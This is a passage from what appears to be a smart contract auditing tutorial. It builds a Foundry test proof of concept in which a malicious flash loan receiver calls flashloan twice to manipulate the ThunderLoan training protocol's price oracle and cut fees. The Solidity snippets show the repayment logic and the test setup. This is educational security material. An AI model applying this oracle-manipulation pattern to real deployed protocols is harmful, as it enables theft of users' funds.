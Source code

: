 Without addressing repayment yet, but calling `flashloan` a second time, we would expect `attacked` to be true, and thus our conditional should fail. In the else block of this statement, we can now acquire feeTwo and then repay the flash loan.

All that's left is adding the repayment logic to our executeOperation function. We can call the repay function from thunderLoan to achieve this in both branches of our conditional check.

```js
IERC20(token).approve(address(thunderLoan), amount + fee);
thunderLoan.repay(IERC20(token), amount + fee);
```

Here's what our attack contract should look like now:

<details><summary> MaliciousFlashLoanReceiver</summary></details>


### Back to our Test

Now that we have our `Malicious Receiver` contract we can deploy one of these in our `testOracleManipulation` test.

```js
// 4. Execute 2 Flash Loans
uint256 amountToBorrow = 50e18;
MaliciousFlashLoanReceiver flr = new MaliciousFlashLoanReceiver(
    address(tswapPool), address(thunderLoan), address(thunderLoan.getAssetFromToken(tokenA))
);
```

Now we just need to finally execute our `flashloan` call! I'm going to add our console logs and assert statement at this stage as well. We expect the `attackFee` to be less than the `normalFeeCost`.

```js
vm.startPrank(user);
tokenA.mint(address(flr), 50e18);
thunderLoan.flashloan(address(flr), tokenA, amountToBorrow, ""); // the executeOperation function of flr will
    // actually call flashloan a second time.
vm.stopPrank();

uint256 attackFee = flr.feeOne() + flr.feeTwo();
console2.log("Attack Fee is:", attackFee);
assert(attackFee < normalFeeCost);
```

Alright, we're ready to run this test - but ironically, after all this work, I'm going to tell you this isn't going to work. 😅

The whole test for reference:

<details><summary>testOracleManipulation</summary></details>


Let's run our test command and you'll see why.

```bash
forge test --mt testOracleManipulation -vvv
```
